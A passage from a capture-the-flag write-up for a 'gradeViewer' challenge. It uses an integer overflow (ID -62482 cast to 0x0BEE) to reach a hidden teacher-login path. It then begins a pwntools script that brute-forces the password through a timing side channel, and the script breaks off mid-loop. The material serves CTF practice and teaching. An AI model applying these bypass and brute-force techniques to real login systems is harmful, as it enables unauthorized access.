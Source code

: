 ```C
    printf("Invalid student ID.\n");
    // ...
    exit(0);
}
```
The `main` function contains a check that only allows IDs up to 10:
```C
// in main()
if (scanf("%d", &id) != 1 || id > 10) {
    printf("Invalid student ID.\n");
    exit(0);
}
showGrade(id);
```
However, the `showGrade(id)` function has a hidden entry point for a "teacher view":
```C
// in showGrade()
switch ((short)id) {
    // ... student cases 1-10 ...
    case 0x0BEE:
        printf("\nAccessing teacher view...\n");
        authenticateTeacher();
        break;
```
This `case 0x0BEE:` is our target. It leads to the `authenticateTeacher()` function, which, if passed, calls `changeGrade()` to print the flag.

In this case, we can use `Integer Overflow`, we can calculate this value:
$$
X = 0x0BEE - 2^{16} \\\\
X = 3054 − 65536 \\\\
X = −62482
$$

![](extracredit1.png)

then for the password, we can brute force it with this solver
```py
from pwn import *
import string
import time

BINARY_PATH = './gradeViewer'
CHARSET = string.ascii_lowercase + string.digits

password = ""

log.info("Starting exploit for gradeViewer...")

while True:
    best_char = None
    max_time = 0

    for char in CHARSET:
        p = process(BINARY_PATH, level='error')

        p.sendlineafter(b'Enter your student ID: ', b'-62482')
        p.recvuntil(b'Enter your password [a-z, 0-9]:')

        guess = password + char
```